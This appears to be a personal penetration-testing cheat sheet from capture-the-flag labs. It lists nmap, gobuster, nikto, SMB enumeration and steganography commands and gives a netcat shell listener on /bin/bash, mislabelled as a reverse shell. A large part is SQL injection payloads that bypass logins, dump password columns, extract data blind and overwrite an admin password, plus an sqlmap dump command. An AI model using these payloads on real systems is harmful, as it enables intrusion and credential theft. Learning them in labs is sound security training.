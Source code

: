 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

**SMB enumeration with enum4linux**
enum4linux -a 10.10.10.10 -> for all info
enum4linux -U 10.10.10.10. | tee text.txt 
(tee - to write output in file)
for other SMB enumeration
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

smbclient -L 10.10.107.105
smbclient //10.10.107.105/guest

**SCP**
securely copy files and directories between two locations.
ex- 
*scp /opt/linPEAS/linepeas.sh janith@10.10.100.180:/dev/shm*
/dev/shm - temporary file storage files system that uses RAM for the storage

__analysing image__
strings image.jpg
exiftool image.jpg
eog image.jpg
binwalk -e image.png- > -e extract the attacked zip or executable

__steghide__
steghide --embed -ef textfile -cf image -p password

# __SQL injection__
1 OR 1=1-- -
ex- WHERE profileID=1 OR 1=1-- - AND password = '18ee24150dc

' OR 1=1-- -
WHERE profileID = 'g' OR 1=1-- -' AND password = '043

URL injection
/sesqli3/login?profileID=' OR 1=1-- -&password=g

SQL update
inject code (field2',nickName='hack1',email='hack2)
UPDATE usertable SET nickName='field1',email='field2',nickName='hack1',email='hack2' WHERE UID='1'
_finding version of databases_
 MySQL and MSSQL
',nickName=@@version,email='
 For Oracle
',nickName=(SELECT banner FROM v$version),email='
 For SQLite
',nickName=sqlite_version(),email='

#find tables
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
#extract_colomnNames_fromTables
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
#extract_data_From_table
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
#can update admin password using this
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

#hash-identifier can be used to identify hash values

' UNION SELECT 1,2-- -
SELECT id, username FROM users WHERE username = '' union select 1,2-- -' AND password = 's'

dump the password from table
' UNION SELECT 1, password from users-- -
this will dump all passwords
' UNION SELECT 1,group_concat(password) FROM users-- -

try to get the admin password
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -

try to confirm admin password length
admin' AND length((SELECT password from users where username='admin'))==37-- -   "

(there is == before the 37) if the statement is true it will allow to log. that means that is the length of the password


sqlmap -u http://10.10.109.224:5000/challenge3/login --data="username=admin&password=admin" 

--level=5 --risk=3 --dbms=sqlite --technique=b --dump












